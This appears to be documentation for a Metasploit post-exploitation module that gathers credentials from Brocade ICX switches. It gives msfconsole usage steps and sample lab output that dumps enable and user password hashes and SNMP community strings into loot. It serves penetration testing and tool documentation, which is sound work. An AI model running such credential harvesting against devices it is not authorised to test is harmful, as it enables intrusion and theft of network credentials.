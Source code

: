 ## Vulnerable Application

This module has been tested on the following hardware/OS combinations.

* Brocade ICX 6430-24
  * Firmware: 08.0.20T311

The ICX config can be found [no passwords](https://github.com/h00die/MSF-Testing-Scripts/blob/master/brocade_icx6430_nopass.conf),
[hashes](https://github.com/h00die/MSF-Testing-Scripts/blob/master/brocade_icx6430_pass.conf)

This module will look for the follow parameters which contain credentials:

* FastIron
  * `show configuration`

!!! keep in mind 'password-display'
http://wwwaem.brocade.com/content/html/en/command-reference-guide/fastiron-08040-commandref/GUID-169889CD-1A74-4A23-AC78-38796692374F.html
!!! need to be able to give a password to enable

  * super-user-password
  * username
  * SNMP

## Verification Steps

1. Start msfconsole
2. Get a shell
3. Do: ```use post/networking/gather/enum_brocade```
4. Do: ```set session [id]```
5. Do: ```set verbose true```
6. Do: ```run```

## Options

## Scenarios

### ICX 6430-24, FastIron 08.0.20T311

#### SSH Session with password-display off

```
resource (brocade.rb)> use post/networking/gather/enum_brocade
resource (brocade.rb)> set session 1
session => 1
resource (brocade.rb)> set verbose true
verbose => true
resource (brocade.rb)> run
[*] In a non-enabled cli
[*] Getting version information
[*] OS: 08.0.30hT311
[+] Version information stored in to loot /root/.msf4/loot/20190601203656_default_10.0.4.51_brocade.version_751557.txt
[*] Gathering info from show configuration
[!] password-display is disabled, no password hashes displayed in config
[*] Post module execution completed
```

#### SSH Session with Enable run

```
resource (brocade.rb)> use post/networking/gather/enum_brocade
resource (brocade.rb)> set session 1
session => 1
resource (brocade.rb)> set verbose true
verbose => true
resource (brocade.rb)> run
[*] In an enabled cli
[*] Getting version information
[*] OS: 08.0.30hT311
[+] Version information stored in to loot /root/.msf4/loot/20190601221921_default_10.0.4.51_brocade.version_839783.txt
[*] Gathering info from show configuration
[+] password-display is enabled, hashes will be displayed in config
[+] enable password hash $1$QP3H93Wm$uxYAs2HmAK0lQiP3ig5tm.
[+] User brocade of type 8 found with password hash $1$f/uxhovU$dST5lNskZCPQe/5QijULi0.
[+] ENCRYPTED SNMP community $MlVzZCFAbg== with permissions ro
[+] ENCRYPTED SNMP community $U2kyXj1k with permissions rw
[*] Post module execution completed
msf5 post(networking/gather/enum_brocade) > loot

Loot
====

host       service  type             name         content     info                   path
----       -------  ----             ----         -------     ----                   ----
10.0.4.51           brocade.version  version.txt  text/plain  Brocade Version        /root/.msf4/loot/20190601221959_default_10.0.4.51_brocade.version_003751.txt
10.0.4.51           brocade.config   config.txt   text/plain  Brocade Configuration  /root/.msf4/loot/20190601222004_default_10.0.4.51_brocade.config_998514.txt

msf5 post(networking/gather/enum_brocade) > creds
Credentials
===========

host       origin     service         public   private                             realm  private_type
----       ------     -------         ------   -------                             -----  ------------
10.0.4.51  10.0.4.51  22/tcp          enable   $1$QP3H93Wm$uxYAs2HmAK0lQiP3ig5tm.         Nonreplayable hash
10.0.4.51  10.0.4.51  161/udp (snmp)           $MlVzZCFAbg==                              Nonreplayable hash
10.0.4.51  10.0.4.51  161/udp (snmp)           $U2kyXj1k                                  Nonreplayable hash
10.0.4.51  10.0.4.51  22/tcp          brocade  $1$f/uxhovU$dST5lNskZCPQe/5QijULi0         Nonreplayable hash
```
